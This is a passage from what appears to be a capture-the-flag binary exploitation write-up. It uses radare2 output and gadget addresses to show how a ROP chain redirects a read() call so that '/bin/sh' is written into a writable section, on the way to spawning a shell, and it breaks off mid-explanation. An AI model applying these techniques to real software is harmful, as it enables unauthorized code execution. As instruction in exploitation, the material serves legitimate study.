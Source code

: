 But, what to put in the stack? This depends on the task we choose to perform, let's dig further.

## Step 2 - read "/bin/sh" into a fixed memory location 

The first thing to do is making the read call to write into a buffer at a fixed memory location, different from the original intended buffer. Examining the above disassembled `read` snippet, it is straightforward to understand that by controlling `rbp` it is possible to read at an arbirary target location, by setting `rbp = TARGET+0x20`. 

Let's do it with ROP. First, find a suitable gadget:

```r2
[0x0040064d]> e rop.len = 2
[0x0040064d]> e search.count = 2
[0x0040064d]> /R rbp
  0x004005a5             5d  pop rbp
  0x004005a6             c3  ret

  0x004005e2             5d  pop rbp
  0x004005e3             c3  ret
```

Good, the first is ok. Now we know three chunks to add to the first buffer:

Chunk Contents   | Chunk length   | Meaning 
-----------------| ---------------|----------------
0x004005a5       | 8 bytes        | Address of "pop rbp; ret" gadget 
0xTARGET+0x20    | 8 bytes        | Address of desired target buffer + 0x20 (still to be chosen)
0x00400670       | 8 bytes        | Address of the `read` snippet 

In order to find a place (`0xTARGET`) to store the shell command, let's enumerate the writable sections:

```r2
[0x0040068d]> iS | grep perm=..w
idx=17 vaddr=0x00600e10 paddr=0x00000e10 sz=8 vsz=8 perm=-rw- name=.init_array
idx=18 vaddr=0x00600e18 paddr=0x00000e18 sz=8 vsz=8 perm=-rw- name=.fini_array
idx=19 vaddr=0x00600e20 paddr=0x00000e20 sz=8 vsz=8 perm=-rw- name=.jcr
idx=20 vaddr=0x00600e28 paddr=0x00000e28 sz=464 vsz=464 perm=-rw- name=.dynamic
idx=21 vaddr=0x00600ff8 paddr=0x00000ff8 sz=8 vsz=8 perm=-rw- name=.got
idx=22 vaddr=0x00601000 paddr=0x00001000 sz=80 vsz=80 perm=-rw- name=.got.plt
idx=23 vaddr=0x00601050 paddr=0x00001050 sz=16 vsz=16 perm=-rw- name=.data
idx=24 vaddr=0x00601060 paddr=0x00001060 sz=8 vsz=8 perm=-rw- name=.bss
idx=30 vaddr=0x00600e10 paddr=0x00000e10 sz=2097152 vsz=2097152 perm=-rw- name=phdr1
idx=31 vaddr=0x00400000 paddr=0x00000000 sz=64 vsz=64 perm=-rw- name=ehdr
```
Since "/bin/sh" is 8-bytes long (including null terminator), there is plenty of space to fit it in. 

Before choosing the correct location, though, let's reason about the downside of messing with `rbp`. Let's look at the epilogue of the `main` function:

```asm
│          0x004006d1   leave
╘          0x004006d2   ret
```
The `leave` instruction will set `rsp` to the value of `rbp` and we would loose the control of the stack, since the return address will be popped from a wrong stack.
